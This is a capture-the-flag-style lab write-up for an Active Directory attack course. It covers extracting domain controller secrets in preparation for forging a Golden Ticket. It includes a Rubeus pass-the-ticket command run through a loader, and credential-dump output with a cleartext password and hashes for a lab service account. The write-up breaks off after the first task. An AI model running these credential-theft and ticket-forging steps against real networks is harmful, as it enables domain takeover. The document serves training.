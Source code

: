 ```yaml
---
icon: vial
---
```


# 8 - Learning Object8️

## Tasks



1 - Extract secrets from the domain controller of dollarcorp

2 - Using the secrets of krbtgt account, create a Golden ticket

3 - Use the Golden ticket to (once again) get domain admin privileges from a machine

Flag 16 \[dcorp-dc] - NTLM hash of krbtgt  🚩

Flag 17 \[dcorp-dc] - NTLM hash of domain administrator - Administrator 🚩



## Solutions

### 1 - Extract secrets from the domain controller of dollarcorp

Starting to previous learning object 7 lab, we've already domain admin privileges, let's extract all the hashes on the domain controller (the command need to be executed from a process running with privileges of DA on the student VM).

Starting opening a new cmd as administrator and starting a new process as svcadmin's user:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```bash
Authentication Id : 0 ; 86511 (00000000:000151ef)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 1/10/2025 9:28:52 AM
SID               : S-1-5-21-719815819-3726368948-3917688648-1118

         * Username : svcadmin
         * Domain   : DOLLARCORP.MONEYCORP.LOCAL
         * Password : *ThisisBlasphemyThisisMadness!!
         * Key List :
           aes256_hmac       6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
           aes128_hmac       8c0a8695795df6c9a85c4fb588ad6cbd
           rc4_hmac_nt       b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old      b38ff50264b74508085d82c69794a4d8
           rc4_md4           b38ff50264b74508085d82c69794a4d8
           rc4_hmac_nt_exp   b38ff50264b74508085d82c69794a4d8
           rc4_hmac_old_exp  b38ff50264b74508085d82c69794a4d8
```
